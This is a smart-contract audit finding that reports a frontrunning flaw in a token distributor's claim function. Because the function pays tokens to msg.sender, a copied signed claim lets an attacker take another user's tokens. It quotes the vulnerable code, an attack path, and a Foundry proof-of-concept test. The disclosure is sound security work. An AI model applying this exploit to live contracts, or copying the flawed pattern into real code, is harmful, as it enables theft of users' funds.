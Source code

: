 Nice Chiffon Mandrill

High

# Attackers Can Steal User Tokens By Frontrunning Claim Transactions

### Summary

The lack of recipient validation in the claim function will cause users to lose their entitled tokens as attackers can monitor the mempool and frontrun legitimate claim transactions by copying their calldata, effectively stealing the tokens since they are sent to `msg.sender` instead of the intended recipient.

### Root Cause

In [`VVVVCTokenDistributor.sol#L131-L135`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L131-L135), tokens are transferred to `msg.sender` without verifying if they are the legitimate recipient:

```solidity
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender,
                _params.tokenAmountsToClaim[i]
            );
```

The function only validates the signature and nonce but does not ensure that `msg.sender` is the intended recipient of the tokens.

### Internal pre-conditions

1. User must have a valid signed claim transaction
2. Tokens must be available in the proxy wallets

### External pre-conditions

_No response_

### Attack Path

1. Legitimate user broadcasts a claim transaction with valid signature and parameters
2. Attacker monitors the mempool for claim transactions
3. Attacker spots the user's transaction and copies its calldata
4. Attacker submits the same transaction with higher gas price/priority fee
5. Attacker's transaction gets processed first, successfully claiming the tokens
6. User's transaction reverts due to invalid nonce (already used by attacker)

### Impact

Users suffer from complete loss of their entitled tokens as attackers can steal them through frontrunning. The stolen tokens cannot be recovered as the transfer is final and the off-chain system will mark them as claimed.

### PoC

Add this test case to `VVVVCTokenDistributor.unit.t.sol` and run `forge test --mt test_PoC_Claim -vvv`

```solidity
function test_PoC_Claim() public {
    // Setup: Create arrays for a single project token proxy wallet and claim amount
    address[] memory thisProjectTokenProxyWallets = new address[](1);
    uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

    // Assign values: Use the first project token proxy wallet and claim amount
    thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];
    uint256 claimAmount = sampleTokenAmountsToClaim[0];
    thisTokenAmountsToClaim[0] = claimAmount;

    // Generate claim parameters with a valid signature for sampleKycAddress
    VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
        sampleKycAddress,
        thisProjectTokenProxyWallets,
        thisTokenAmountsToClaim
    );

    // Vulnerability: An attacker can front-run the transaction and use the same parameters
    // Simulate attacker claiming tokens using the intercepted parameters
    claimAsUser(address(0x99), claimParams);
    
    // Verify: Attacker successfully received the tokens
    assertTrue(ProjectTokenInstance.balanceOf(address(0x99)) == claimAmount);

    // Attempt: Original user tries to claim, but fails due to used nonce
    vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
    claimAsUser(sampleKycAddress, claimParams);
    
    // Verify: Original user received no tokens
    assertTrue(ProjectTokenInstance.balanceOf(sampleKycAddress) == 0);
}
```

### Mitigation

_No response_
